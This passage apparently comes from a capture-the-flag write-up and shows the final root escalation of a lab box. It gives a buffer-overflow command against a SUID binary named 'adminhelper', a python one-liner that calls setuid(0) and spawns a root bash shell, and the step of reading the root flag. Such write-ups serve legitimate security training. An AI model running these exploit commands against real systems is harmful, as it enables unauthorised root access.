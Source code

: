     or use python
    ./adminhelper `python -c 'print "A"*72+"\x68\xed\xff\xff\xff\x7f"'`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552841246666_image.png)


our shellcode executes and successful buffer overflow occurs dropping us into a root shell due to the SUID bit on the `./adminhelper`

upgrading the shell to full.

    python -c 'import os; os.setuid(0);os.setgid(0);os.system("/bin/bash")'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552841502181_image.png)


flag `/root/root.txt`


![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552841564182_image.png)


Bring me the root!

-exec

